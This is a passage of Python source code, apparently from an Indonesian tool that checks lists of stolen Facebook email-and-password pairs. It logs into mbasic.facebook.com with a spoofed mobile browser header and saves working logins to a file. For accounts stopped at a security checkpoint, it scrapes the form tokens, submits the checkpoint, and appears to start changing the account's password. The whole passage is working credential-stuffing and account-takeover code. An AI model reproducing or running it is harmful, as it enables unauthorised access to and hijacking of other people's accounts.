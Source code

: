 		akun = fb.replace("\n","")
		ngecek  = akun.split(" ◊ ")
		nomor+=1
		print("\n%s%s.%s login akun %s> %s%s"%(H,str(nomor),O,M,K,akun.replace(" *--> ","")));jeda(0.07)
		try:
			mengecek(ngecek[0].replace(" *--> ",""), ngecek[1])
		except requests.exceptions.ConnectionError:
			continue
	print("\n%s%s%s Selesai mengecek akun"%(U,til,O));jeda(0.07)
	#os.popen('play-audio data/cek.mp3')
	input('%s%s%s [%s Enter%s ] '%(U,til,O,U,O))
	pilihan().menu()
	
data = {}
data2 = {}

def mengecek(user,pw):
	global loop,ubah_pass,pwbaru
	session=requests.Session()
	url = "https://mbasic.facebook.com"
	session.headers.update({"Host":"mbasic.facebook.com","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9","referer":"https://mbasic.facebook.com/","user-agent":"Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]"})
	soup=bs4.BeautifulSoup(session.get(url+"/login/?next&ref=dbl&fl&refid=8").text,"html.parser")
	link=soup.find("form",{"method":"post"})
	for x in soup("input"):
		data.update({x.get("name"):x.get("value")})
	data.update({"email":user,"pass":pw})
	urlPost=session.post(url+link.get("action"),data=data)
	response=bs4.BeautifulSoup(urlPost.text, "html.parser")
	if "c_user" in session.cookies.get_dict():
		if "Akun Anda Dikunci" in urlPost.text:
			print("\r%s× akun terkunci sesi new"%(M))
		else:
			print("\r%s× akun tidak checkpoint, silahkan anda login "%(H))
			#os.popen('play-audio dapet.mp3')
			open('OK/%s.txt'%(waktu), 'a').write(" *--> %s ◊ %s\n" % (user,pw))
	elif "checkpoint" in session.cookies.get_dict():
		coki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
		title=re.findall("\<title>(.*?)<\/title>",str(response))
		link2=response.find("form",{"method":"post"})
		listInput=['fb_dtsg','jazoest','checkpoint_data','submit[Continue]','nh']
		for x in response("input"):
			if x.get("name") in listInput:
				data2.update({x.get("name"):x.get("value")})
		an=session.post(url+link2.get("action"),data=data2)
		response2=bs4.BeautifulSoup(an.text,"html.parser")
		cek=[cek.text for cek in response2.find_all("option")]
		number=0
		print("\r%s%s%s terdapat %s%s%s opsi %s:"%(U,til,O,P,str(len(cek)),O,M));jeda(0.07)
		if(len(cek)==0):
			if "Lihat detail login yang ditampilkan. Ini Anda?" in title:
				if "ubah_sandi" in ubah_pass:
					dat,dat2={},{}
					but=["submit[Yes]","nh","fb_dtsg","jazoest","checkpoint_data"]
					for x in response("input"):
						if x.get("name") in but:
							dat.update({x.get("name"):x.get("value")})
					ubahPw=session.post(url+link2.get("action"),data=dat).text
					resUbah=bs4.BeautifulSoup(ubahPw,"html.parser")
					link3=resUbah.find("form",{"method":"post"})